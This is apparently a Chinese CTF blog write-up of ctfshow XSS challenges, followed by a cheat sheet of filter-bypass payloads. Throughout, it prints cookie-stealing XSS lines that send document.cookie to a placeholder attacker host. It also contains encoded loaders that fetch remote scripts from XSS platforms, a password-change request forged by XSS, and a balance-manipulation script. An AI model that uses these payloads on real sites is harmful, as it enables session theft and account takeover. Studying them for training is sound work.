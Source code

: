 ```yaml
---
uuid: 5d776e51-2639-f251-c346-921c60f91725
title: xss
date: 2022-03-24 18:36:20
tags:
    - Web
    - xss
categories:
    - [Web]
    - [CTF]
---
```

ctfshow里面的xss刷题记录(有xss弹窗，建议若要点开请先关闭浏览器弹窗授权)
<!--more-->

# web316

这道题先测试一下

![image-20220713120540614](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207131205683.png?x-oss-process=hzy)

存在xss漏洞，毕竟是第一题，应该没有任何过滤，直接打cookie即可！[XSS平台](https://xss.pt/)在这个平台里面

记录可用的姿势：

> img
>
> `<script>
> var img=document.createElement("img"); img.src="http://ip/"+document.cookie;
> </script>`
>
>
> 直接创建img标签的话，比如这样`<img src="http://ip:39543/"+document.cookie />`不行，这里识别不到document.cookie，套一层`<script></script>`也不行。
>
> 还有其他外带姿势
>
> window.open
>
> `<script>window.open('http://ip/'+document.cookie)</script>`
>
> `<script>window.location.href='http://ip/'+document.cookie</script>`
>
> `<script>location.href='http://ip/'+document.cookie</script>`
>
> input也可以，但是要加上autofocus
>
> `<input onfocus="window.open('http://ipx/'+document.cookie)" autofocus>`

> 通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发

> svg标签
>
> `<svg onload="window.open('http://ip/'+document.cookie)">`

>
> iframe标签
>
> `<iframe onload="window.open('http://ip/'+document.cookie)"></iframe>`

> body标签
>
> `<body onload="window.open('http://ip/'+document.cookie)">`

正常的vps需要nc，但是nc好像不能持续接收，但是方法有很多，可以重复起nc，也可以写个python然后起一个临时的服务器，接收一下get参数

```
python3 -m http.server 39543
```

这道题直接上传标准形式即可！

![image-20220324192000984](https://img-blog.csdnimg.cn/img_convert/4dccf0b5217a4aa0caf2f733a56907e1.png)

显示不是管理员没有flag

换一个，用一个url一次编码的

> ```
> %26lt%3B%2FtExtArEa%26gt%3B%26%23039%3B%26quot%3B%26gt%3B%26lt%3BsCRiPt%20sRC%3Dhttps%3A%2F%2Fxss.pt%2Frxab%26gt%3B%26lt%3B%2FsCrIpT%26gt%3B 
> ```
>

![image-20220325104330643](https://img-blog.csdnimg.cn/img_convert/78fa0aa22d544ede48319bb58a34d750.png)

得到flag!

> 还有另一种方法，进行监听日志！
>
> `<script>window.open('http://ip/'+document.cookie)</script>`

![image-20220402122311481](https://img-blog.csdnimg.cn/img_convert/4a823f15884b24bbb418f2c9dbb5e9aa.png)

# web317

![image-20220325105741041](https://img-blog.csdnimg.cn/img_convert/0b1de4927bff18c0048789cbbf40b6a1.png)

还是这样的界面，只不过已经开始过滤了，问题不大，过滤哪个就不用哪个，换成其他代码一样的步骤

> 测试了一下过滤了script，使用img标签！
>
> `'"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHA6Ly94c3N5ZS5jb20veDNUdyI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>`

![image-20220325115249559](https://img-blog.csdnimg.cn/img_convert/7e950a5575d50083331a4adfcf7a66db.png)

> 成功反弹，但是还是不能成为ADMIN，尝试一下用
>
> `<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#121;&#101;&#46;&#99;&#111;&#109;&#47;&#120;&#51;&#84;&#119;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>`

得到flag

![image-20220325120033561](https://img-blog.csdnimg.cn/img_convert/364adb6edf98f67fb4a2910e2f0b0362.png)

> <iframe> - HTML（超文本标记语言） | MDN (mozilla.org)

# web318

这道题增加了过滤，查询得到这道题过滤了img标签

> img标签也被过滤了，可以用body标签，这个标签不容易被ban
>
> `<body onload=alert(0)></body>`，成功回显。

- > 过滤img，用xss平台的实体十六进制编码
  >
  > `<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x20;&#x73;&#x52;&#x43;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x78;&#x73;&#x73;&#x79;&#x65;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x71;&#x79;&#x52;&#x43;&#x22;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E;>`

# web319

> 这道题同上，没用过滤iframe
>
> `<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#121;&#101;&#46;&#99;&#111;&#109;&#47;&#113;&#121;&#82;&#67;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>`

# web320

> > - 过滤了空格可以换%09制表符或者/来代替
> >
> > `<iframe/WIDTH=0/HEIGHT=0/srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#120;&#115;&#115;&#121;&#101;&#46;&#99;&#111;&#109;&#47;&#113;&#121;&#82;&#67;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>`
>
> 
>
> ```
> <body/onload=document.location='http://ip/cookie.php?cookie='+document.cookie;>
> ```
>
> ```
> <body	onload=document.location='http://ip/'+document.cookie;>
> ```
>
> ![image-20220402122852006](https://img-blog.csdnimg.cn/img_convert/862b2de7572eb591f2925be7acdf5688.png)
>

# web321-326

![image-20220402123046302](https://img-blog.csdnimg.cn/img_convert/d38a61617689373d8b27d09d6a127f93.png)

过滤的不影响payload，通杀！

# web327

储存型xss

![image-20220402123835826](https://img-blog.csdnimg.cn/img_convert/a4ff8789c836a193375282a828f5e542.png)

还用上一题的方法还是可！

![image-20220402124001064](https://img-blog.csdnimg.cn/img_convert/05f88a3ad1f645ab67ca2881171808f6.png)

# web328

![image-20220402124148083](https://img-blog.csdnimg.cn/img_convert/e2446c8487517bff1d380ac7d53f7e47.png)

> 先注册一个用户
>
> ![image-20220719144948985](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207191449031.png?x-oss-process=hzy)
>
> ![image-20220402124657195](https://img-blog.csdnimg.cn/img_convert/d6009a561b7aaad7007a941b6fca52f2.png)
>

盗取到cookie！

![image-20220402125657138](https://img-blog.csdnimg.cn/img_convert/ba3b8ac3973c0c9f96199fbd13e2c42c.png)

替换cookie，成为admin

![image-20220402125734783](https://img-blog.csdnimg.cn/img_convert/d5d52dae67f0f54ee5f84a3feb62b848.png)

# web329

> 查资料发现从这题开始，cookie都是短时的，截获的的cookie都会失效！
>
> ![image-20220719144910338](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207191449392.png?x-oss-process=hzy)

可以看到截获的cookie在不断变化，同时都是无法正常使用的

![image-20220402130147887](https://img-blog.csdnimg.cn/img_convert/365b3c04fcf5491f8e331c74081b191e.png)

最后神奇的出来了cookie!

# web330

> ![image-20220402130326741](https://img-blog.csdnimg.cn/img_convert/e35cf9b56fd28cf752cecc5fe25d78e2.png)
>
> ![image-20220719144602659](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207191446704.png?x-oss-process=hzy)
>
> 使用bp抓包修改密码
>

![image-20220402130743241](https://img-blog.csdnimg.cn/img_convert/07ac1f35a2c605d958b13c901a9cef74.png)



进入admin，得到flag

![image-20220402131335454](https://img-blog.csdnimg.cn/img_convert/656dd6ad6a090a79483287a1605b8cc9.png)

# web331

![image-20220402131620821](https://img-blog.csdnimg.cn/img_convert/f265baa2214e234886bc617388f5e68d.png)

这里发现变成了post请求，用window.open肯定不行了

查一下javascript如何发送Http请求

```
var httpRequest = new XMLHttpRequest();//第一步：创建需要的对象
httpRequest.open('POST', 'url', true); //第二步：打开连接
httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");//设置请求头 注：post方式必须设置请求头（在建立连接后设置请求头）
httpRequest.send('name=teswe&ee=ef');//发送请求 将情头体写在send中
/**
 * 获取数据后的处理程序
 */
httpRequest.onreadystatechange = function () {//请求后的回调接口，可将请求成功后要执行的程序写在其中
    if (httpRequest.readyState == 4 && httpRequest.status == 200) {//验证请求是否发送成功
        var json = httpRequest.responseText;//获取到服务端返回的数据
        console.log(json);
    }
};
```

用这个，在注册页payload

<script>var httpRequest = new XMLHttpRequest();httpRequest.open('POST', 'http://127.0.0.1/api/change.php', true);httpRequest.setRequestHeader("Content-type","application/x-www-form-urlencoded");httpRequest.send('p=123456');</script>

登录admin即可!

![image-20220402132814339](https://img-blog.csdnimg.cn/img_convert/3ce9ee34e91d98eee2dac1026d9cba94.png)

# web332

![image-20220402132917124](https://img-blog.csdnimg.cn/img_convert/2ffd88d7f28cdfca897e5cc2282bd8a6.png)

注册用户，然后给admin转账-100000也就是自己多了100000

![image-20220402133010578](https://img-blog.csdnimg.cn/img_convert/f5f3285a5a58cfcbbe45f3baadd6bd29.png)

![image-20220402133018491](https://img-blog.csdnimg.cn/img_convert/881b517a931ceacc29117d8d1165f71f.png)

![image-20220402133025907](https://img-blog.csdnimg.cn/img_convert/4d6ab59605d1ffa29831747853659331.png)

# web333

这道题是不能向其他账户转账的，只能向自己转账，且只能转低于自己现有钱的数目，比如现在有5块，那么最多只能转5块，接下来的就慢慢跑到10000即可，用burp可以跑：

![image-20220402133425766](https://img-blog.csdnimg.cn/img_convert/a5ac34557fc4c708702df1722816f311.png)

写个脚本也可以

```
import requests
import re
import time
x=5
url="http://93a2a39e-623a-4cc6-bea3-6e43db483fd7.challenge.ctf.show/api/amount.php"
url2="http://93a2a39e-623a-4cc6-bea3-6e43db483fd7.challenge.ctf.show/api/getFlag.php"
headers={'Cookie':'PHPSESSID=g4fohb8r0onc7p66qf4oasoh0l'}  #自己登录后的sessionid
while True:
	print(x)
	t=x-1
	data={
	'u':'000', #注册的用户名
	'a':str(t)
	}
	r=requests.post(url,headers=headers,data=data)
	print(r.text)
	if(x>10000):
		r2=requests.get(url2,headers=headers)
		print(r2.text)
		break
	x+=t

```

![image-20220402134524351](https://img-blog.csdnimg.cn/img_convert/7a88483b59f99f8ba8767096f2a6f620.png)

# 总结

## 无任何过滤情况下的XSS

当没有过滤发生时，可以的XSSpayload就太多了，包括但不限于：

```javascript
<script>：
<script>alert(1);</script>

<body>：
<body onload=alert(1);>

<img>：
<img src='' onerror=alert(1);>

<svg>：
<svg onload=alert(1);>

<iframe>：
<iframe onload=alert(1);></iframe>

<video>：
<video><source onerror=alert(1);>

<audio>：
<audio src='' onerror=alert(1);>
```

## 过滤空格的情况

当发现题目过滤了空格的时候，就可以用`/`去绕过空格
比如：

```javascript
<body/onload=alert(1);>
```

## 过滤了关键字

## 大小写绕过

当过滤了像img这样的关键字时，可以尝试去用大小写去绕过：

```javascript
<ImG sRc='' OnErroR=alert(1);>
```

## 双写绕过

或者可以用双写绕过：（当waf是只匹配一次，且替换为空时可以双写）

```javascript
<imimgg srsrcc='' onerror=alert(1);>
```

## 拼接绕过

也可以用eval或者top来进行拼接

```javascript
<img src='' onerror="a='aler';b='t';c='(1);';eval(a+b+c)">

<img src='' onerror=top["ale"+"rt"](1);>
```

## 编码绕过：

> 可以用unicode编码绕过
>
> ```javascript
> <img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">
> 
> <img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">
> ```
>
> url编码
>
> ```javascript
> <img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
> <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
> ```
>
> Ascii码绕过
>
> ```javascript
> <img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
> ```
>
> hex绕过
>
> ```javascript
> <img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
> ```
>
> 八进制绕过
>
> ```javascript
> <img src=x onerror=alert('\170\163\163')>
> ```
>
> base64绕过
>
> ```javascript
> <img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
> <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
> ```
>
> > 对于xss中用服务器查看日志也做一下记录
> >
> > 服务器中用到的apache，刚开始开启apache
> >
> > `service apache2 start`
> >
> > `cd /var/log/apache2`
> >
> > 日志一般都在access.log里面
> >
> > 对于过滤不严或者没有过滤的直接用
> >
![image-20220719144511252](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207191445301.png?x-oss-process=hzy)

> > 即可进行监听并查看日志得到关键信息



参考：

[通过CTFSHOW来粗略学习XSS - o3Ev的小家](http://blog.o3ev.cn/yy/224#menu_index_9)

[Y0ng的博客 (yongsheng.site)](http://www.yongsheng.site/2021/04/20/ctfshow web入门(xss)/)

 [CTFSHOW\]XSS入门(佛系记录)_Y4tacker的博客-CSDN博客_ctfshow web入门xss](https://y4tacker.blog.csdn.net/article/details/111568030)
